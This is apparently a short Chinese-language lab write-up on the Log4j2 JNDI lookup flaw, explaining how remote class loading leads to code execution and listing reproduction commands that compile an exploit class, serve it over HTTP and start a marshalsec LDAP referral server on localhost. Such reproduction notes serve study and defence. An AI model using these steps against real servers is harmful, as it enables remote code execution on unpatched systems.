

### 0x01 漏洞原理
用我的理解简单概括一下，log4j2在输出日志的时候除了支持常见的变量替换还支持远程获取内容（远程获取内容由Lookups功能提供），例如
```
# 变量替换
logger.info("user name: {}, alias name: {}", userName, aliasName)
```
远程获取内容支持多种维度，其中就包括jndi，如下图
  
jndi简单讲就是一个类似于字典的数据集，传入名称，获取对应的对象，不过jndi还有一个危险的特性，可获取远程class或远程class的地址，加载到本地后通过classloader执行，这个时候如果用户传入一个包含恶意class的地址，则会导致服务器执行恶意代码，具体利用的话需要结合jndi支持的协议，jndi支持ladp、rmi、corba、dns四种协议，如下复现我们选择ldap协议


### 0x02 漏洞复现
1、javac.exe .\Exploit.java  
2、python3.exe -m http.server 8800  
3、java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer http://127.0.0.1:8800/#Exploit  

4、结果如下图  
  
  